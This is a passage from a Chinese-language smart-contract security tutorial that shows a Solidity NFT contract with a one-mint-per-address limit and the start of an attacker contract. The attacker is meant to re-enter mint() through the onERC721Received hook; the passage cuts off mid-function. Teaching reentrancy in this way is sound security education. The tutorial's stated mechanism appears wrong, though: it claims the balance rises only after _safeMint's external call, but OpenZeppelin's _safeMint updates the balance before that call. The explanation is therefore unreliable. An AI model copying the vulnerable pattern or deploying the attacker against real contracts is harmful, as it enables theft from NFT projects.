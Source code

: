 ### 6.3 攻击场景实例：绕过"每人一个"的铸造限制

假设有一个热门的 NFT 项目，为了公平，规定每个钱包地址只能免费铸造一个 NFT。

#### 有漏洞的 NFT 合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "@openzeppelin/contracts/utils/Counters.sol";

contract VulnerableNFT is ERC721 {
    using Counters for Counters.Counter;
    Counters.Counter private _tokenIdCounter;

    constructor() ERC721("Vulnerable NFT", "VNFT") {}

    function mint() public {
        // ❌ 漏洞点 1: 检查在交互之前
        // 检查用户是否已经铸造过
        require(balanceOf(msg.sender) == 0, "Each address can only mint one NFT");

        _tokenIdCounter.increment();
        uint256 tokenId = _tokenIdCounter.current();

        // ❌ 漏洞点 2: 交互 (外部调用) 在状态更新之前
        // 使用了 _safeMint，它会调用外部合约
        _safeMint(msg.sender, tokenId);
    }
}
```

这个合约的逻辑看起来没问题：先检查余额，再铸造。但它违反了安全的**"检查-生效-交互"**模式。状态的真正改变（`balanceOf` 的增加）发生在 `_safeMint` 这个"交互"步骤**之后**。

#### 攻击者的合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./VulnerableNFT.sol";

contract NFTAttacker {
    VulnerableNFT public vulnerableNft;
    uint256 public mintCount = 0;

    constructor(address _nftAddress) {
        vulnerableNft = VulnerableNFT(_nftAddress);
    }

    // 攻击入口函数
    function attack() public {
        // 只需要调用一次 mint()
        vulnerableNft.mint();
    }

    // 💣 核心攻击代码：重入的钩子
    // 当 _safeMint 调用本合约时，这个函数会被触发
    function onERC721Received(
        address,
        address,
        uint256,
```